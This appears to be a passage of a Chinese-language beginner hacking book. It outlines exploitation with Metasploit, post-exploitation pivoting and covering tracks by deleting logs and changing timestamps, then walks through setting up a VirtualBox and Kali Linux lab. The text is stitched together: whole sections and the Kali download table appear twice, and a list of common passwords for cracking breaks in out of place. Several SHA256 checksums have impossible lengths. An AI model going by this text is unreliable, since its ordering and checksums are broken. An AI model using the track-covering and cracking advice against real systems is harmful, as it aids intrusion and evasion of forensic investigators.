如果我们未能通过密码破解成功，下一步就是尝试利用漏洞。基于在侦察阶段收集的信息，我们可以制定利用策略。利用通常是由于操作系统或应用程序中的缺陷而实现的。其中最臭名昭著的缺陷是缓冲区溢出。当变量区域被过多或特定类型的数据溢出时，就会发生缓冲区溢出，从而使攻击者能够将其远程代码（通常是 rootkit、payload 或监听器）放置在那里。随后，这个替换代码由目标系统执行，然后攻击者连接并控制目标系统（关于缓冲区溢流的更多信息，请参见 Exploit Development, Part 1，位于 `https://www.hackers-arise.com/single-post/2017/05/26/Exploit-Development-Part-1-Anatomy-of-Buffer-Overflows`）。

虽然有许多工具和脚本可用于利用漏洞，但对于入门到中级黑客来说，Metasploit 是首选工具。Metasploit 是一个框架，用于针对计算机系统中已知漏洞进行利用（以及其他工具）。这里的关键词是“已知漏洞”。

Metasploit 并不能帮助你利用新的、零日（从未见过的）漏洞，而是对操作系统、服务和应用程序中已知漏洞的工具和利用进行编目和部署。

需要注意的是，系统并不总是已修补且保持最新的。正如我们在第 1 章“黑客历史”部分中看到的，即使在 EternalBlue 漏洞的补丁发布后，攻击者仍然能够利用全球数十万台系统，并获得了数十亿美元的赎金。

在本书中，我们将重点介绍 Metasploit 和一些 Python 脚本在利用漏洞方面的使用。

## 后渗透（Post-Exploitation）

后渗透是指在黑客攻击或利用发生之后发生的事情。黑客攻击使攻击者进入了系统，但访问通常只是开始。后渗透可能包括获取密码、访问数据库、开启并访问麦克风或摄像头等。它也可能包括横向移动（pivoting），以 compromised 网络的其他部分。例如，如果黑客能够 compromise 网络中的单个用户，该用户的系统很可能不具备黑客正在寻找的有价值资产，例如包含 personally identifiable information（个人身份信息）、信用卡号或机密信息的数据库。黑客需要学会从被 compromise 的系统横向移动到网络上的其他系统，才能取得成功。

## 掩盖踪迹（Covering Tracks）

一旦利用过程完成，且后渗透阶段的破坏性活动已经实施（如获取或阅读文档、开启麦克风、横向移动到其他系统等），黑客的最后任务就是掩盖他们的踪迹。这个阶段使得取证调查人员更难追踪黑客的活动和行为。这可能意味着删除或修改日志文件、删除 bash 命令、更改文件的时间戳等。

## 摘要（Summary）

既然我们已经对黑客攻击或利用的过程有了了解，让我们开始吧！

在下一章中，我们将搭建一个安全的实验室环境，让我们可以在没有任何法律后果风险的情况下进行练习。


# 搭建你的黑客虚拟实验室

对安全的渴望与所有伟大而高贵的事业相冲突。

*塔西佗*

现在我们已经完成了所有预备工作，让我们开始黑客行动！

在我们踏上成为大师级黑客的旅程之前，我们必须首先建立一个安全的实验室，以便在其中练习我们的工具和技术。

做到这一点的最佳方式是使用虚拟环境。虚拟化使你能够在同一台物理机器内运行多个操作系统，从而在安全环境中练习你的技能。




你有许多可用的虚拟机环境。这些包括 VMware Workstation、VirtualBox、Parallels、Virtual PC、Xen、ESXi、Hyper-V 以及其他任何环境。你可以使用其中任何一个，但在以下部分中，我将指导你使用 Oracle 免费的 VirtualBox 搭建你的黑客实验室。

VirtualBox 是虚拟化的一个坚实选择，最重要的是，它是免费的！

虚拟化意味着我们可以将攻击系统（如 Kali）与受害系统（如 Windows 7 或 Metasploitable 2，这是一个故意存在漏洞的 Linux 系统）设置在同一台物理计算机上。

虚拟化操作系统至少有两种主要方式：1 型或完全虚拟化，以及 2 型或硬件辅助虚拟化。

1 型虚拟化运行在“裸机”上，换句话说，虚拟化系统（hypervisor）和硬件之间没有任何其他东西。在 2 型虚拟化中，我们能够在宿主操作系统内运行来宾操作系统（OS）。这并不是最高效的方式，但它作为实验室环境非常出色。这就是我们将使用 VirtualBox 在这里做的事情。

## Kali Linux

让我们从下载我们的攻击系统 Kali Linux 开始。它是由 Offensive Security 开发的一个基于名为 Debian 的 Linux 发行版构建的黑客/渗透测试操作系统。有许多 Linux 发行版，而 Debian 是其中最好的之一。你可能最熟悉 Ubuntu，它作为一种流行的 Linux 桌面发行版。Ubuntu 也是基于 Debian 构建的。其他发行版包括 Red Hat、CentOS、Mint、Arch、SUSE 和许多其他。虽然它们都共享同一个 Linux 内核（操作系统的心脏，控制 CPU、RAM 等），但每个发行版都有自己的实用工具、应用程序和图形界面选择（GNOME、KDE 等）以适应不同的目的。因此，这些 Linux 发行版的外观和感觉略有不同。Kali 专为渗透测试人员和黑客设计，并附带了一套重要的黑客工具。

## 下载 Kali Linux

### 下载 Kali Linux 镜像

我们每隔几个月就会生成新的 Kali Linux 镜像文件，并将其提供下载。此页面提供了下载最新官方版本 Kali Linux 的链接。有关发布历史记录，请查阅我们的 Kali Linux 发布页面。请注意：你可以在 `http://cidimage.kali.org/kali-weekly/` 找到非官方的、未经测试的每周版本。下载限制为 5 个并发连接。

| 镜像名称 | 下载 | 大小 | 版本 | SHA256Sum |
| :--- | :--- | :--- | :--- | :--- |
| Kali Linux 64位 | HTTP \| 种子 | 3.2G | 2019.2 | 67574ee0039eaf4043a237e7c40e0b432cc07feb93c7b20d6667e83bc3900b2cf |
| Kali Linux 32位 | HTTP \| 种子 | 3.2G | 2019.2 | 1e9a023b0db81fdec9c69712210c2c48f62da3f9900d0f1dbe73f150ee6f246282 |
| Kali Linux LXDE 64位 | HTTP \| 种子 | 3.0G | 2019.2 | cdd07fc955275d49b40208838f8ca2984d5cebc942f54556d351d009edc8dc |
| Kali Linux HATE 64位 | HTTP \| 种子 | 3.1G | 2019.2 | f81caca35bc61678f1a84dc8949023b11c743d080f35be2ac8d6f008fdf93bad |
| Kali Linux Light armhf | HTTP \| 种子 | 741M | 2019.2 | 0f3ad59fc2fed888cb36daab3c6798da190e54e65c50b9562f847ad71a73963 |
| Kali Linux KDE 64位 | HTTP \| 种子 | 3.5G | 2019.2 | b794d2609231cf2c73f00783b8506cbfe304746c20e009ad21aa37b473c32749f |

我强烈建议你使用 Kali 来完成本书。虽然你可以使用其他 Linux 发行版，但你很可能需要花费大量时间来下载、安装和配置我们将要使用的各种工具（即使工具数量与 Kali 相当，我们仍然需要下载和安装另外几个）。

你可以在 `www.kali.org` 下载 Kali Linux。

10. iloveyou

11. princess

12. admin

13. welcome

14. 666666

15. abc123

16. football

17. 123123

18. monkey

19. 654321

20. !@#$%^&*

21. charlie

22. aa123456

23. donald

24. password1

25. qwerty123

如果网络中有人正在使用这些常见密码之一，或者其他 5,000 个最常见密码之一，攻击者只需几秒钟即可破解！


密码破解至少分为两种类型：在线破解和离线破解。一旦获取了密码哈希值（大多数密码是以称为哈希的单向加密形式存储的。参见附录 A，“黑客的密码学基础”），离线破解就变得简单多了，黑客可以利用手头的所有资源进行破解。在线破解则困难得多，因为许多系统具有锁定机制，这可以限制我们的尝试次数。

## 利用（Exploitation）

如果我们未能通过密码破解成功，下一步就是尝试利用漏洞。基于在侦察阶段收集的信息，我们可以制定利用策略。利用通常是由于操作系统或应用程序中的缺陷而实现的。其中最臭名昭著的缺陷是缓冲区溢出。当变量区域被过多或特定类型的数据溢出时，就会发生缓冲区溢出，从而使攻击者能够将其远程代码（通常是 `rootkit`、`payload` 或 `listener`）放置在那里。随后，这段替换代码由目标系统执行，然后攻击者连接并控制目标系统（关于缓冲区溢出的更多信息，请参见《Exploit Development, Part 1》，位于 `https://www.hackers-arise.com/single-post/2017/05/26/Exploit-Development-Part-1-Anatomy-of-Buffer-Overflows`）。

虽然有许多工具和脚本可用于利用漏洞，但对于入门到中级黑客来说，`Metasploit` 是首选工具。`Metasploit` 是一个框架，用于针对计算机系统中已知漏洞进行利用（以及其他工具）。这里的关键词是“已知漏洞”。

`Metasploit` 并不能帮助你利用新的、零日（从未见过的）漏洞，而是对操作系统、服务和应用程序中已知漏洞的工具和利用进行编目和部署。

需要注意的是，系统并不总是已修补且保持最新的。正如我们在第 1 章“黑客历史”部分中看到的，即使在 `EternalBlue` 漏洞的补丁发布后，攻击者仍然能够利用全球数十万台系统，并获得了数十亿美元的赎金。

在本书中，我们将重点介绍 `Metasploit` 和一些 `Python` 脚本在利用漏洞方面的使用。

## 后渗透（Post-Exploitation）

后渗透是指在黑客攻击或利用发生之后发生的事情。黑客攻击使攻击者进入了系统，但访问通常只是开始。后渗透可能包括获取密码、访问数据库、开启并访问麦克风或摄像头等。它也可能包括横向移动（pivoting），以 compromised（攻陷）网络的其他部分。例如，如果黑客能够攻陷网络中的单个用户，该用户的系统很可能不具备黑客正在寻找的有价值资产，例如包含 personally identifiable information（个人身份信息）、信用卡号或机密信息的数据库。黑客需要学会从被攻陷的系统横向移动到网络上的其他系统，才能取得成功。

## 掩盖踪迹（Covering Tracks）

一旦利用过程完成，且后渗透阶段的破坏性活动已经实施（如获取或阅读文档、开启麦克风、横向移动到其他系统等），黑客的最后任务就是掩盖他们的踪迹。这个阶段使得取证调查人员更难追踪黑客的活动和行为。这可能意味着删除或修改日志文件、删除 bash 命令、更改文件的时间戳等。

## 摘要（Summary）

既然我们已经对黑客攻击或利用的过程有了了解，让我们开始吧！

在下一章中，我们将搭建一个安全的实验室环境，让我们可以在没有任何法律后果风险的情况下进行练习。


# 搭建你的黑客虚拟实验室

对安全的渴望与所有伟大而高贵的事业相冲突。

*塔西佗*

现在我们已经完成了所有预备工作，让我们开始黑客行动！

在我们踏上成为大师级黑客的旅程之前，我们必须首先建立一个安全的实验室，以便在其中练习我们的工具和技术。

做到这一点的最佳方式是使用虚拟环境。虚拟化使你能够在同一台物理机器内运行多个操作系统，从而在安全环境中练习你的技能。


你有许多可用的虚拟机环境。这些包括 `VMware Workstation`、`VirtualBox`、`Parallels`、`Virtual PC`、`Xen`、`ESXi`、`Hyper-V` 以及其他任何环境。你可以使用其中任何一个，但在以下部分中，我将指导你使用 Oracle 免费的 `VirtualBox` 搭建你的黑客实验室。

`VirtualBox` 是虚拟化的一个坚实选择，最重要的是，它是免费的！

虚拟化意味着我们可以将攻击系统（如 `Kali`）与受害系统（如 `Windows 7` 或 `Metasploitable 2`，这是一个故意存在漏洞的 Linux 系统）设置在同一台物理计算机上。

虚拟化操作系统至少有两种主要方式：1 型或完全虚拟化，以及 2 型或硬件辅助虚拟化。

1 型虚拟化运行在“裸机”上，换句话说，虚拟化系统（hypervisor）和硬件之间没有任何其他东西。在 2 型虚拟化中，我们能够在宿主操作系统内运行来宾操作系统（OS）。这并不是最高效的方式，但它作为实验室环境非常出色。这就是我们将使用 `VirtualBox` 在这里做的事情。

## Kali Linux

让我们从下载我们的攻击系统 `Kali Linux` 开始。它是由 Offensive Security 开发的一个基于名为 `Debian` 的 Linux 发行版构建的黑客/渗透测试操作系统。有许多 Linux 发行版，而 `Debian` 是其中最好的之一。你可能最熟悉 `Ubuntu`，它作为一种流行的 Linux 桌面发行版。`Ubuntu` 也是基于 `Debian` 构建的。其他发行版包括 `Red Hat`、`CentOS`、`Mint`、`Arch`、`SUSE` 和许多其他。虽然它们都共享同一个 Linux 内核（操作系统的心脏，控制 CPU、RAM 等），但每个发行版都有自己的实用工具、应用程序和图形界面选择（`GNOME`、`KDE` 等）以适应不同的目的。因此，这些 Linux 发行版的外观和感觉略有不同。`Kali` 专为渗透测试人员和黑客设计，并附带了一套重要的黑客工具。

## 下载 Kali Linux

### 下载 Kali Linux 镜像

我们每隔几个月就会生成新的 `Kali Linux` 镜像文件，并将其提供下载。此页面提供了下载最新官方版本 `Kali Linux` 的链接。有关发布历史记录，请查阅我们的 `Kali Linux` 发布页面。请注意：你可以在 `http://cidimage.kali.org/kali-weekly/` 找到非官方的、未经测试的每周版本。下载限制为 5 个并发连接。

| 镜像名称 | 下载 | 大小 | 版本 | SHA256Sum |
| :--- | :--- | :--- | :--- | :--- |
| Kali Linux 64位 | HTTP \| 种子 | 3.2G | 2019.2 | 67574ee0039eaf4043a237e7c40e0b432cc07feb93c7b20d6667e83bc3900b2cf |
| Kali Linux 32位 | HTTP \| 种子 | 3.2G | 2019.2 | 1e9a023b0db81fdec9c69712210c2c48f62da3f9900d0f1dbe73f150ee6f246282 |
| Kali Linux LXDE 64位 | HTTP \| 种子 | 3.0G | 2019.2 | cdd07fc955275d49b40208838f8ca2984d5cebc942f54556d351d009edc8dc |
| Kali Linux HATE 64位 | HTTP \| 种子 | 3.1G | 2019.2 | f81caca35bc61678f1a84dc8949023b11c743d080f35be2ac8d6f008fdf93bad |
| Kali Linux Light armhf | HTTP \| 种子 | 741M | 2019.2 | 0f3ad59fc2fed888cb36daab3c6798da190e54e65c50b9562f847ad71a73963 |
| Kali Linux KDE 64位 | HTTP \| 种子 | 3.5G | 2019.2 | b794d2609231cf2c73f00783b8506cbfe304746c20e009ad21aa37b473c32749f |

我强烈建议你使用 `Kali` 来完成本书。虽然你可以使用其他 Linux 发行版，但你很可能需要花费大量时间来下载、安装和配置我们将要使用的各种工具（即使工具数量与 `Kali` 相当，我们仍然需要下载和安装另外几个）。

你可以在 `www.kali.org` 下载 `Kali Linux`。

## 安装 Kali Linux

在主页上，点击页面顶部的**下载**链接，即可进入下载页面。在这里，你将看到多个下载选项，类似于下图所示。

这些是针对不同系统的 `Kali` 不同版本。


选择合适的下载项非常重要。在表格的左侧，你会看到`镜像名称`，即该链接所下载的版本的名称。例如，第一个是 Kali Linux 64 位版，意味着它是完整的 Kali Linux，适用于 64 位系统——大多数现代系统都使用 64 位 Intel 或 AMD CPU。要确定系统中 CPU 的类型，请转到“控制面板 > 系统和安全 > 系统”，那里应该有相关列表。如果你是 64 位系统，请下载并安装完整版 Kali 的 64 位版本（而不是 Light 或 Lxde，或其他替代版本）。

如果你使用的是装有 32 位 CPU 的旧电脑，则需要安装页面上较低位置显示的 32 位版本。

你可以选择通过 HTTP 或 Torrent（磁力下载）进行下载。如果选择 HTTP，Kali 将直接下载到你的系统中，并将镜像文件放在你的“下载”文件夹中。TORRENT 下载是一种由许多文件共享网站使用的点对点下载方式。你需要使用如 BitTorrent 等磁力下载应用程序才能使用此方式。Kali 文件随后将下载到磁力下载应用程序存储下载的文件夹中。

还有其他版本适用于其他类型的 CPU，例如许多移动设备中常见的 ARM 架构。如果你正在使用树莓派（Raspberry Pi）、平板电脑或其他移动设备（手机用户可能更倾向于使用 Kali NetHunter），请确保通过滚动到“下载 ARM 镜像”并点击`Kali Arm 镜像`来下载并安装 ARM 架构版本的 Kali。






## 设置虚拟化

现在你已经下载了 Kali，但在安装任何内容之前，我想稍微谈谈虚拟机。正如我在上面提到的，虚拟机（VM）技术允许你在一台硬件设备（如你的笔记本电脑或台式机）上运行多个操作系统。这意味着你可以继续运行你熟悉的 Windows、Mac 或 Linux 操作系统，并在该操作系统内部运行一个 Kali Linux 虚拟机。你不需要覆盖现有的操作系统来学习黑客技术。

让我们安装 VirtualBox 作为我们的虚拟化系统。

### 安装 VirtualBox

你可以在 www.virtualbox.org 下载 VirtualBox。你应该能在左侧菜单中看到“下载”按钮。点击“下载”按钮，将会带你到下图所示的屏幕。选择适合你电脑当前操作系统的下载链接，该系统将承载 VirtualBox 虚拟机。务必下载最新版本的 VirtualBox。

下载完成后，点击安装文件，你将看到熟悉的安装向导，如下所示。

点击`下一步`，你应该会看到自定义安装屏幕。


#### 欢迎使用 VirtualBox！

此窗口的左侧列出了你电脑上的所有虚拟机和虚拟机组。由于你还没有创建任何虚拟机，因此列表目前是空的。

要创建新的虚拟机，请按位于窗口顶部主工具栏上的`新建`按钮。

你可以按`F1`键获取即时帮助，或访问 [www.virtualbox.org](www.virtualbox.org) 以获取更多信息和最新消息。




在此屏幕上，只需点击`下一步`。

继续点击`下一步`，直到你到达网络接口警告屏幕，然后只需点击`是`。

点击`安装`以开始安装过程。在此过程中，你很可能多次被提示安装*设备软件*。这些是虚拟机之间通信所需的虚拟网络设备。对每一项都点击`安装`。

安装完成后，点击`完成`。

### 设置你的虚拟机

现在让我们开始安装我们的虚拟机。安装完成后，VirtualBox 应该会打开——如果没有，请手动打开它——你应该会看到如下图所示的 VirtualBox 管理器。


由于我们将使用 Kali Linux 创建一个新的虚拟机，请点击左上角的`新建`。

这将打开如下图所示的`创建虚拟机`窗口。



在第一个窗口中为你的机器命名（任何名称都可以，但我简单地使用了 Kali），然后从类型下拉菜单中选择`Linux`。最后，从第三个下拉菜单中选择`Debian (64-bit)`（除非你使用的是 32 位版本的 Kali，在这种情况下请选择 Debian 32 位版本）。点击`下一步`，你将看到如下图所示的屏幕。在这里，我们需要选择要为这个新虚拟机分配多少 RAM（内存）。

作为一般规则，我不建议使用的内存超过系统总内存的 25%。这意味着如果你在主系统或宿主系统上安装了 4GB 内存，那么只为你的虚拟机选择 1GB；如果你在物理系统上有 16GB 内存，则选择 4GB。你给虚拟机的 RAM 越多，其运行效果越好、速度越快，但你必须为你的宿主操作系统以及你可能希望同时运行的其他虚拟机保留足够的 RAM。当你不使用虚拟机时，它们不会使用任何 RAM，但它们会占用硬盘空间。

点击`下一步`，你将到达硬盘屏幕。选择`创建虚拟硬盘`，然后点击`创建`。

在接下来的屏幕上，你可以决定要创建的硬盘是动态分配还是固定大小。如果你选择`动态分配`，系统*不会*占用你为虚拟硬盘分配的整个最大空间，直到你需要时为止，从而为你的宿主系统节省更多的未使用硬盘空间。我建议你先选择动态分配。

点击`下一步`，你将选择分配给虚拟机的硬盘空间量以及虚拟机的位置。


#### 创建虚拟硬盘

**文件位置和大小**

请将新的虚拟硬盘文件的名称输入到下面的框中，或点击文件夹图标以选择创建该文件的不同文件夹。

Kali

以兆字节为单位选择虚拟硬盘的大小。此大小是虚拟机能够在硬盘上存储的文件数据量的限制。

4.00 MB | 25.2 GB | 2.00 TB

[`创建`] [`取消`]



默认值是 8GB。我通常发现这有点小，并建议至少分配 20–25GB。请记住，如果你选择了动态分配硬盘空间，它不会在你需要之前使用空间，而且在分配后扩展硬盘可能很棘手，所以最好多留一些空间。

点击`创建`，你就准备就绪了！

## 在虚拟机中安装 Kali

此时，你应该看到如下图所示的屏幕。现在你需要安装 Kali。请注意，在 VirtualBox 管理器的左侧，你应该看到 Kali 虚拟机已关机的指示。

点击“开始”按钮（绿色箭头图标）。

然后，VirtualBox 管理器将询问启动磁盘的位置。你之前已经下载了扩展名为 `.iso` 的磁盘镜像文件，它应该在你的*下载*文件夹中（如果你使用磁力下载 Kali，`.iso` 文件将在你的磁力下载应用程序的*下载*文件夹中）。点击右侧的文件夹图标，导航到*下载*文件夹，并选择 Kali 镜像文件。


然后点击`开始`。

恭喜！你已成功踏上征程！

## 设置 Kali

Kali 接下来会显示如下图所示的界面，提供多种启动选项。对于初学者，建议使用图形化安装。



